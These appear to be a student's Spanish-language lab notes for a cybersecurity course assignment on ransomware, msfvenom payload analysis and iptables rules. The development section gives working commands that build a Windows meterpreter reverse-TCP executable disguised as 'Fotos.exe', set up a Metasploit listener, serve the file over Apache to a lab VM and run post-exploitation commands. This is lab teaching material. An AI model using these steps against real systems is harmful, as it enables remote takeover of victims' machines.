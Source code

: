 # Info
Apoyo
[Google drive profe](https://drive.google.com/drive/folders/1ltz_dNvsPAmWGl8aKHMr1_4YH1xGgG94)
Descarga [Kali Linux](https://www.kali.org/get-kali/#kali-virtual-machines) y su [Documentacion](https://www.kali.org/docs/) y la de sus [Herramientas](https://www.kali.org/tools/)
- `extras/Adjuntos/1_2_2_Actividad_Generacion_de_un_Malware_JCalderon.pdf`
Apoyarse con [[999 - Archivado/IPtables|IPtables]]
## Contexto
Una empresa naviera sufrió un ataque de tipo Ransomware. Este [[020 - Conceptos/020.2 - Seguridad/Malware|Malware]] llegó a través de un archivo del tipo Office al correo de uno de los empleados, y rápidamente infectó los servidores críticos cifrando el contenido, dejando a la empresa inhabilitada para funcionar por varios días. Los ciberdelincuentes solicitaron un rescate en Bitcoin que la empresa tuvo que pagar para recuperar sus activos críticos.
## Instrucciones

### ITEM I: Investige acerca de los malware del tipo ramsomware. 
Nota: Es importante que use sus propias palabras, no se acepta copy-paste y referencie la fuente
1. Qué es un ransomware y qué principios de la ciberseguridad vulnera, y cómo nos podemos proteger
2. Qué vulnerabilidad aprovechó el ransomware WannaCry, y cómo se puede solucionar. (indique parche asociado)
3. Realice una descripción de qué es Ethernalblue y Doublepulsar.
4. Qué otros malware del tipo ransomware han afectado a las organizaciones a nivel mundial, describa 5.

### ITEM II: Entrege Recomendaaciones (Al menos 3) a la empresa para evitar ser, nuevamente, victima de este tipo de ataque. Liste y Describa ampliamente las recomendaciones (5 Puntos)

### ITEM III: Haga un Analisis del archivo FOTOS.EXE (10 puntos)
Nota1: Debera usar MSFVENOM para generar el archivo "FOTOS.EXE" y generar el ataque de "REVERSE_TCP", este archivo estara ubicado en Descargas y Entregue los IoC(Indicadores de Compomiso) de ese archivo (IP, HASH) y recomendaciones de seguridad. Incluir Capturas de pantalla.
Nota2: Usar VM "Win 7 IE" y los sitios URLSCAN, Virustotal o alguna otra.

### ITEM IV: Generar politicas de Firewall e IPtables (5 Puntos)
Nota1: Usar VM "Kali Linux" y Evidenciar configuraciones en el informe
- Generar Politicas de `INPUT/OUTPUT/FORWARD` por defecto `ACCEPT`, 
- Permitir solo el uso del puerto `80` para aceptar conexiones de la maquina cliente `win7`, los demas servicios estaran bloqueados
- Habilitar Politica para rechazar las conexiones al puerto 22 desde fuera de la red
- Bloquar Dominio `www.facebook.com` para que la maquina kali no pueda acceder a esta URL

## Desarrollo
Primero que nada la configuracion de esto:
acceder a la configuracion de Kali Linux > Red > Adaptador 1 y dejarlo en "NAT", Luego ir a Adaptador 2 y dejarlo en "Red Interna" con el nombre de "intnet", luego abrir advance y en el modo promiscuo con "permitir todo"

Me funciono dejando la configuracion de los dos adaptadores como adaptadores puentes a la misma salida ethernet, por lo que usaria la red de mi casa como local :p

Kali Linux
Abre una terminal
```
sudo su
```
Poner el teclado en español (es o latam)
```
setxkbmap es
```
Crear virus
Nota: lhost usa la ip de la maquina kali de la red nat
```
msfvenom -p windows/meterpreter/reverse_tcp lhost=10.0.2.15 lport=4444 -f exe -a x86 > Fotos.exe
```
Ingresar Consola
```
msfconsole
```
Cargar Exploit
```
use exploit/multi/handler
```
```
set payload windows/meterpreter/reverse_tcp
```
```
set lhost 10.0.2.15
```
```
set lport 4444
```
```
exploit
```
Crear carpeta compartida apache
```
mkdir -p /var/www/html/shares
```
mover Fotos.exe
```
mv /Fotos.exe /var/www/html/shares
```
Activar servidor Apache2
```
service apache2 start
service apache2 status
```

EN WINDOWS7 -> Acceder a la ip de kali(`10.0.2.15`) desde Win7 y descargar `Fotos.exe`

Comprobar conexion desde kali
```
sysinfo
screenshot
mkdir "Hola Mundo"
nc -vlp 4444
```

---
IPTables en Kali:

Comandos iniciar/Reiniciar/Detener Firewall
```
service iptables start
service iptables restart
service iptables stop
```
Ver reglas de salida firewall Generales/Input/Output
```
iptables -nvL
iptables -nv -L Input
iptables -nv -L Output
```
Aceptar Politicas por defecto "ACCEPT"
```
iptables -P INPUT ACCEPT
iptables -P OUTPUT ACCEPT
iptables -P FORWARD ACCEPT
```
Permitir solo el puerto 80 para las conexiones con Win7, los demas bloqueados (IPIPA)
```
iptables -A INPUT -p tcp --destination-port 80 -m iprange --src-range 192.168.1.10-192.168.1.200 -j ACCEPT
```
Habilitar politica para rechazar conexiones puerto 22 fuera de la red
```
iptables -A INPUT -m state --state NEW -m tcp -p tcp --dport 22 -j DROP
```
Bloquear Dominio [www.facebook.com](http://www.facebook.com/) para que la maquina kali no pueda acceder a esa url
```
iptables -A OUTPUT -p tcp -d www.facebook.com -j DROP
iptables -A OUTPUT -p tcp -d facebook.com -j DROP
iptables -A INPUT -p tcp -d www.facebook.com -j DROP
iptables -A INPUT -p tcp -d facebook.com -j DROP
```
Guardar Reglas Firewall en caso de/Restaurar
```
iptables-save > /root/reglas.firewall
iptables-restore < /root/reglas.firewall
```

Terminado
- `extras/Adjuntos/Instrucciones Evaluación 1 Terminada.pdf`